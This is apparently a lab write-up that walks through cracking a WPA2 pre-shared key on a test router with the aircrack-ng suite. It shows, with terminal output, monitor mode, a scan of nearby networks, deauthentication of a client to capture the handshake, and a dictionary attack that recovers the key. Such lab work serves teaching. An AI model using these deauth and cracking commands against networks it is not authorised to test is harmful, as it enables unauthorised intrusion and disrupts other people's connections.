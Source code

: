 ```yaml
---
title: Wireless sniffing
---
```


# Wireless sniffing

1. Goal
    * Collect and analyze wireless traffic.

2. Used hardware
    * Alfa AWUS036NHA (Long-range USB Adapter)
    * TL-MR3020 (Porable 3G/4G Wireless N Router)
    * 1 laptop with Kali Linux
    * 1 device with a wireless connection (Smartphone, tablet, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup

![Success](./assets/setup.png)

5. Getting started
    1. Display the list of available adapters (Kali Linux)
    
    ```
    root@kali:~# airmon-ng

    PHY     Interface       Driver          Chipset

    phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
    phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

    root@kali:~#
    ```
    
    2. Monitor mode allows a wireless network interface controller to monitor all traffic received on a wireless channel.
        1. Kill the network managers. (To Avoid interference with other tools)
        ```
        root@kali:~# airmon-ng check kill

        Killing these processes:

        PID Name
        626 wpa_supplicant

        root@kali:~#
        ```
        2. Put the adapter in monitor mode
        ```
        root@kali:~# airmon-ng start wlan1

        PHY     Interface       Driver          Chipset

        phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
        phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)

        root@kali:~#
        ```
        3. Scan the environment
        ```
        root@kali:~# airodump-ng wlan1mon

        CH 11 ][ Elapsed: 36 s ][ 2019-12-23 18:58

        BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -39       69        0    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST
        3A:43:3D:4B:CE:5E  -55       51        0    0   6  130  WPA2 CCMP   MGT  TelenetWiFree
        04:BF:6D:22:9B:6E  -83       15        0    0   6  130  WPA2 CCMP   PSK  Wireless
        0A:19:70:AA:AB:25  -86        9        0    0   1  54e. WPA2 CCMP   MGT  Proximus Public Wi-Fi
        1E:B0:44:3B:F6:7D  -89        2        0    0   1  130  WPA2 CCMP   PSK  Guest-Orange-bf678
        AC:22:05:AC:81:93  -90        5        0    0   1  130  WPA2 CCMP   PSK  MyBike
 
        root@kali:~#
        ```
    3. Hacking WPA2
        1. Capture data from a specified BSSID
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w tkip wlan1mon

        CH  1 ][ Elapsed: 1 min ][ 2019-12-23 19:03

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -27  93      995       45    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -37    1e- 1      0       11

        root@kali:~#
        ```
        2.While capturing data in one terminal, deautenticate the client in a second terminal.
        ```
        root@kali:~# aireplay-ng --deauth 2 -a 68:FF:7B:45:A5:88 -c C0:33:5E:DD:CA:FD wlan1mon
        19:10:10  Waiting for beacon frame (BSSID: 68:FF:7B:45:A5:88) on channel 1
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [61|66 ACKs]
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [60|64 ACKs]
        root@kali:~#
        ```
        In the first terminal Airodump-ng should display 'WPA handshake'
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w ccmp  wlan1mon

        CH  1 ][ Elapsed: 42 s ][ 2019-12-23 19:40 ][ WPA handshake: 68:FF:7B:45:A5:88

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -28  71      380       13    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -42    1e- 1e     0       19

        root@kali:~#
        ```
        3. Resolving the PSK
        ```
        root@kali:~# aircrack-ng  -w /usr/share/john/password.lst ccmp-01.cap
        Opening ccmp-01.capease wait...
        Read 988 packets.

            #  BSSID              ESSID                     Encryption

            1  68:FF:7B:45:A5:88  TP-Link_TEST              WPA (1 handshake)

        Choosing first network as target.

        Opening ccmp-01.capease wait...
        Read 988 packets.

        1 potential targets

                                      Aircrack-ng 1.5.2

            [00:00:00] 428/649 keys tested (1267.84 k/s)

            Time left: 0 seconds                                      65.95%

                                   KEY FOUND! [ NotSecure ]

            Master Key     : 36 D7 58 30 73 6D C6 14 43 22 E9 94 75 C8 D7 66
                             6D D3 E9 5C A0 32 42 68 9B 66 34 5B 98 83 4E 22

            Transient Key  : 64 3A 8D C6 6A ED AD 65 58 4B 52 04 29 D8 01 A0
                             8D C3 E7 F2 E7 35 40 BE 30 9C A1 F0 A2 04 6B 81
                             D7 8A 35 79 4D 38 86 EB 0F 1E BB 5D FB 0B ED 6F
                             F3 67 A4 EC 19 9E D0 79 5F C5 AF CB FA 62 DC D4

            EAPOL HMAC     : 6F 1D 9E 64 3E 39 5C 16 55 FC CB B0 F7 B0 6B 77
        root@kali:~#
        ```
